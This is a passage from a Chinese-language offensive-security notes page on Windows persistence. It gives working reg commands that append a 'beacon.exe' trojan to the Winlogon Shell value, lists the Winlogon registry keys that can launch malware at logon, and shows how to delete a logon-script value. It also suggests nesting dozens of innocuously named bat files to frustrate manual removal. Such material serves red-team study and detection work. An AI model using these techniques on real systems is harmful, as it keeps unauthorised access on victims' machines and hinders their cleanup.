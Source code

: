 清除注册表启动脚本。

```plaintext
reg delete "HKCU\Environment" /v UserInitMprLogonScript /f
```

PS：既然可以使用 bat 那可以创建几十个 bat 脚本，文件名还都是正常的那种，通过 call 调用其他 bat，一层层调，套娃，让手工难度加大。怎么创建？最好通过 Windows API 来自动化完成这些内容。

#### 2.3.3 WinLogon

[https://www.bilibili.com/video/BV1N841147LY](https://www.bilibili.com/video/BV1N841147LY)

[Windows Persistence Logon Helper Winlogon - Google 搜索](https://www.google.com/search?q=Windows+Persistence+Logon+Helper+Winlogon+&sxsrf=APwXEdeDaz9tt1C2c4Jf83VDWduHRhsLEg%3A1682750954223&ei=6r1MZNSPDZGF2roP-feGkA8&ved=0ahUKEwjUrPzmv87-AhWRglYBHfm7AfIQ4dUDCA8&uact=5&oq=Windows+Persistence+Logon+Helper+Winlogon+&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIFCCEQoAEyBQghEKABMgUIIRCgATIFCCEQoAEyBQghEKABSgQIQRgBUPMBWIsDYOgEaAFwAHgAgAHrAYgBtQOSAQMyLTKYAQCgAQGgAQLAAQE&sclient=gws-wiz-serp)

WinLogon 涉及用户登录时初始化应用和 GUI Shell 的操作，可以通过修改注册表的方式运行正常初始化操作时顺便运行木马：

-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Shell，System GUI Shell
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit，初始化用户
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify，

因为要修改注册表 HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon 项，需管理员权限，高完整性才能操作。这样好处自然是系统任何用户登录都能获得对应登录用户的权限，如果只是获得当前用户权限，只需将注册表 HKLM 换成 HKCU 注册表则普通用户权限修改即可。

1.Shell

默认值。

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe
```

设置 Shell 值时，没有指定类型，因为默认字符串类型是 REG\_SZ 这里指定或者不指定都行。设置的值简写 beacon.exe 会在 C:\\WIndows\\System32 目录找，因此需要把 beacon.exe 放到此目录内，不过防止需要管理员权限操作，为了省事当然放到其他目录中写绝对路径。使用 /f 选项是因为值已经存在要覆盖原有值。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe, beacon.exe
```

重新登录获得权限。

![WinLogin 进程运行状态.png](assets/1708583418-1dd7d6f538a127b3bf904d5b93d8e87a.png)
